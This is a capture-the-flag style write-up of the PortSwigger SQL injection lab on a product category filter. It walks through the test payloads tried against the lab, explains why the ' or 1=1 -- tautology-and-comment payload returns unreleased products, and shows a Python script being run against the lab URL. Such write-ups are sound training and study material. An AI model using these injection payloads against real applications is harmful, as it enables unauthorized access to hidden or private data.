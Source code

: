 ## SQL injection - product category filter

The primary goal of this lab is to manipulate SQL queries to display all products, including those not meant to be released or shown to users. Typically, a product's visibility is controlled by a 'released' flag in the database, with '1' indicating that the product is released and '0' indicating it is not.


ref:

```
https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
```

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

**End goal:** display all products both released and unreleased.

### Vulnerability Analysis

In this scenario, the application uses a query to filter products based on their category and whether they have been released:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The goal is to modify this query so it returns all products, regardless of their 'released' status.

### Attack Vectors

Below are a series of SQL manipulations attempted to exploit the vulnerability:

1. **Initial Attempt**:

   ```sql
   SELECT * FROM products WHERE category = 'Pets' AND released = 1
   ```

   This query changes the category but still only shows released products.
2. **Syntax Testing**:

   ```sql
   SELECT * FROM products WHERE category = ''' AND released = 1
   ```

   This introduces a syntax error to test the application's handling of SQL input.
3. **Commenting Out**:

   ```sql
   SELECT * FROM products WHERE category = ''--' AND released = 1
   ```

   Attempts to comment out the rest of the SQL query but incorrectly formatted.
4. **Empty Category**:

   ```sql
   SELECT * FROM products WHERE category = ''
   ```

   Removes the category filter but doesn't address the 'released' condition.
5. **Successful Exploit**:

   ```sql
   SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
   ```

   This is the successful payload. By injecting `' or 1=1 --`, it effectively removes the filter on the 'released' status, making the query return all products. The `1=1` is always true, and `--` comments out the rest of the query, preventing any syntax errors or further conditions from being applied.

### Test Payloads

To exploit this vulnerability, the following payloads were tested:

- `'`
- `'--`
- `' or 1=1 --`

The payload that solved the lab and achieved the objective of revealing all products was:

```sql
' or 1=1 --
```

## How It Works

The successful payload works by breaking out of the application's intended SQL query structure and injecting our own logic that always evaluates to true. By appending `--`, we ensure the original query's remaining parts are ignored by the database, effectively bypassing any filters the application intended to apply.

Open Burp Suite, cz i fixed the proxy here with burpsuite

` $ python -u "h:\bug Bountry\Web\SQL injection\Lab1\sql script.py" "https://0a20007e04b26508881fc4df00f900ae.web-security-academy.net/filter?category=" "'or 1=1--"    `

`[+] SQL injection successful! `
